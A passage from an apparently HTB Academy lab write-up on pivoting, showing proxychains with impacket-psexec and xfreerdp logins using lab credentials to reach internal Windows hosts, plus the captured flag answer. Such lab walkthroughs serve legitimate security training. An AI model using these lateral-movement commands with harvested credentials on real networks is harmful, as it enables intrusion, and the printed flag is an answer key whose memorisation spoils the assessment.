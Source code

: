#### 

Access target host `**172.16.6.25**` **using Impacket-PsExec or RDP with creds found earlier:**[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/pivoting-tunneling-and-port-forwarding/labs-skills-assessment#access-target-host-172.16.6.25-using-impacket-psexec-or-rdp-with-creds-found-earlier)

┌──(kali㉿kali)-[~]

└─$ proxychains impacket-psexec vfrank:'Imply wet Unmasked!'@172.16.6.25

​

┌──(kali㉿kali)-[~]

└─$ proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:'Plain Human work!' /drive:linux,/home/kali/Transfer

C:\Windows\system32> dir C:\

Volume in drive C has no label.

Volume Serial Number is C41A-F2ED

​

Directory of C:\

​

05/17/2022 11:38 AM 23 Flag.txt

12/14/2020 07:22 PM <DIR> PerfLogs

04/27/2022 06:19 AM <DIR> Program Files

04/27/2022 06:18 AM <DIR> Program Files (x86)

05/17/2022 08:15 AM <DIR> Users

03/05/2023 04:33 PM <DIR> Windows

1 File(s) 23 bytes

5 Dir(s) 12,736,028,672 bytes free

​

C:\Windows\system32> type C:\Flag.txt

N3tw0rk-H0pp1ng-f0R-FuN

**Answer:** `**N3tw0rk-H0pp1ng-f0R-FuN**`

### 

7. Submit the contents of C:\Flag.txt located on the Domain Controller.[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/pivoting-tunneling-and-port-forwarding/labs-skills-assessment#7.-submit-the-contents-of-c-flag.txt-located-on-the-domain-controller.)

#### 

Network discovery (found that the host was dual-homed):[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/pivoting-tunneling-and-port-forwarding/labs-skills-assessment#network-discovery-found-that-the-host-was-dual-homed-1)
